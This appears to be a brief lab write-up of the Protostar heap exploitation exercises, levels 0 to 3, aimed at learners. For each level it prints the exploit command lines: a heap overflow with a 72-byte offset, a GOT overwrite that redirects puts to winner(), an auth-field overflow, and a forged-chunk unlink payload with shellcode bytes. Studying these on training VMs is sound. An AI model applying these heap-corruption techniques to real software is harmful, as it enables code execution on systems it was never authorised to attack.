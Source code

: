 # Protostar heap-overflow notes

I've noticed that a lot of well documented writeups are present for protostar and decided to instaad post a cliff-notes version for this and upcoming ones. A bunch of useful [References](#references)

test [Heap 3](#heap-3)

### Heap \#0
Generated good ol' string using pattern_create for 140
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5A6

gbb shows segfault at 0x41346341 which is 72

attack payload: 

	./heap0 `python -c 'print "A" * 72 + "\x64\x84\x04\x08"'`

use ` not ' . **huge difference!!**

### Heap \#1
Did overflow with pattern_create
exact match at 20
Winner location at 0x08048494

Basically there is a printf funnction after strcpy but kept as puts
overwrite with GoT table address and then and point to winner()

put address is 08049774

	./heap1 `python -c "print 'A' * 20 + '\x74\x97\x04\x08' +' ' + '\x94\x84\x04\x08'"`

overwrite the address of argv[2] with GoT table's jump to puts(). Then second strcpy call will move address of winner() and overwrite the puts address
when printf is called we get winner

### Heap \#2

differene between auth and service is 0x10 or 16 bytes.
if u do serviceXXXXXXXXXXXXXXXXX [which x= 17 bytes] u get overflow and get int auth initialized to a specific value X. Then the check will pass.

Another way is use after free

### Heap \#3
FOLLOW DOUG MALLOC articles
In gdb:  

	r AAA `python -c 'print "B"*32 + "\xfc\xff\xff\xff" + "\xf0"'` CCCCDDDDEEEE
Now we can see that after B we overflow next chunk wiht fc which is basically previous chunk size of -4 and kept f0 which means chunk is in use.

Seg fault when trying to copy edx into eax  

	mov eax+12,edx  
	DDDD <<< EEEEE

0x804b128 - 0xc = 0x804b11c  for puts function address which has been adjusted to compensate for assembly

Final Payload:
    
    ./heap3 `python -c 'print "AAAA" + "\xeb\x06" + "\x90"*6 + "\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "B"*16 + "\x01"*4 + "\xff"*4 + "B"*8 + "\xfc\xff\xff\xff" + "\xf0\xff\xff\xff"'` `python -c 'print "CCCC"+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"'`

## References
- https://www.thc.org/root/docs/exploit_writing/Exploiting%20the%20wilderness.txt
- http://www.mathyvanhoef.com/2013/02/understanding-heap-exploiting-heap.html


